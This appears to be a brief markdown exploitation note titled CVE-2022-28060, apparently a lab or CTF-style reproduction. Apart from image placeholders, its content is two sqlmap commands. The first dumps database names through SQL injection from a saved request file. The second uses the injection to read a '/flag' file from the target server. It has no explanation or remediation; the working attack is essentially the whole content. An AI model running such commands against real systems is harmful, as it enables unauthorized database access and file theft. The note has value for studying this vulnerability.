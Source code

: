 # CVE-2022-28060
![](vx_images/542821248582899.png)


![](vx_images/361393230221258.png)


```
sqlmap -r /home/cryingtor/桌面/1.txt --dbs -batch
```
![](vx_images/455035225721448.png)


```
sqlmap -r /home/cryingtor/桌面/1.txt -D mysql --file-read='/flag' -batch
```
![](vx_images/525556439619459.png)





















